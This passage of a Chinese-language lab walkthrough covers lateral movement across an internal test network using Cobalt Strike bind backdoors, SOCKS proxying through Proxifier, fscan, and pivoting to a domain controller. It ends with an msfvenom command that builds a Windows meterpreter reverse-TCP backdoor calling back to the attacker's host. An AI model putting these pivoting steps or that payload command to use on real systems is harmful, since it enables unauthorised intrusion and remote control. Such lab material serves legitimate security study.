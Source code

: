 ![1732347798808](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942016.png)

运行4444.exe后，发现sql机主动开了一个4444端口（等待别人来连接）：

![1732347820581](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942017.png)

然后用 cs控制Web主机连接sql机：

![1732347931397](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942018.png)

sql主动找的web，间接找的kali    ------------ 这就是正向

![1732347999544](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942019.png)



### xd视频演示：

kali （攻击机）刚开始只能与web主机进行通信，然后上传后门到web主机上线操作，控制得到权限后，因为kali 不能与sql主机进行通信，但是web主机可以与sql进行通信（上图），所有可以kali通过控制web主机（connect 192.168.2.22 4444）连接sql主机。

![1732287156916](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942020.png)

在sql主机上也有一个后门点击会打开自己的4444端口等待连接

  file主机开了一个ftp服务，还是改proxifier，通过ftp拿到file主机权限（这里过程粗略跳过），

连接file主机一样过程：socks代理----proxifier代理（这里注意：配置的服务器还是c2（kali）,更改的是端口和代理规则的目标主机ip--192.168.3.*-----fscan扫-------上正向后门）后面一样

连接DC：

还是先建立socks代理（开一个节点）                                      这里遮住的是192.168.3.22（file主机）

![1732287986076](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942021.png)

接下来配置proxifier

1:	

![1732288157910](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942022.png)

2:

![1732288132353](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942023.png)



下来还是用fscan进行扫描。后面一样。

 

### msf：

linux中的Proxifie是Prixychains。

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.139.128 LPORT=3333 -f exe -o msf.exe  生成一个反向连接后门
